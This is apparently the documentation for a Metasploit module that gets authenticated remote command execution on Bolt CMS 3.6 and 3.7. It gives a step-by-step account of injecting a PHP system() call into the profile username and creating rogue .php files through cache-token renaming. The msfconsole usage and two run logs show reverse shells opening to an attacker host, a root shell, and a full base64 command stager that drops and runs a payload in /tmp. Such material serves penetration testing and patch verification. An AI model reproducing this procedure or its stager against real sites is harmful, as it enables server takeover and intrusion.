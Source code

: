 ## Vulnerable Application

This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as the user running Bolt.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token.
This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name.
If this succeeds, the target may be vulnerable.
The module then proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.`
These tokens are used to create files with the blacklisted `.php` extension via HTTP POST requests to `/async/folder/rename`.
With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens.
While most (if not all) available tokens can be used to created .php files in the /root directory on the server,
the resulting files cannot always be used to execute commands.
The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens,
it seems the easiest way to identify a valid one is to use each token to create a .php file
and then check the contents of that file.
The module does exactly this, deleting any .php files that can't be used
until it finds a file for which the "displayname" value is an empty string ("").
This value indicates that the profile username matching this token is the `$_GET` variable generated earlier,
and that the file can be used to execute arbitrary commands.
If a valid .php file is created, the module executes the payload via an HTTP get request in this format:
`/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a Bolt CMS user. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/unix/webapp/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options

### FILE_TRAVERSAL_PATH

This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server.
It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.

### PASSWORD

The password for the Bolt CMS account to authenticate with. This option is required.

### TARGETURI

The base path to Bolt CMS. The default value is `/`.

### USERNAME

The username for the Bolt CMS account to authenticate with. This option is required.

## Scenarios

### Bolt CMS 3.7.0 running on CentOS 7

```
msf exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[+] Deleted file phfsbswowfp.php.
[+] Reverted user profile back to original state.
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### Bolt CMS 3.7.0 running on Ubuntu 18.04

```
msf exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               172.28.128.5           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.28.128.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qjej".
[*] Found CSRF token: pAuS_pLAjcUd8wPjq7Xus72UE2N0P4YB8HularDy3A0
[*] Found 1 potential token(s) for creating .php files.
[+] Used token a5881f86a828d3810fa0fa64fb to create cojwcnuk.php.
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwcgAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/QtQwu.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/nSljj' < '/tmp/QtQwu.b64' ; chmod +x '/tmp/nSljj' ; '/tmp/nSljj' ; rm -f '/tmp/nSljj' ; rm -f '/tmp/QtQwu.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 172.28.128.5
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.5:41918) at 2020-06-28 22:39:20 -0500
[!] No response, may have executed a blocking payload!
[*] Command Stager progress - 100.00% done (823/823 bytes)
[+] Deleted file cojwcnuk.php.
[+] Reverted user profile back to original state.

meterpreter > getuid
Server username: no-user @ ubuntu-bionic (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 18.04 (Linux 4.15.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
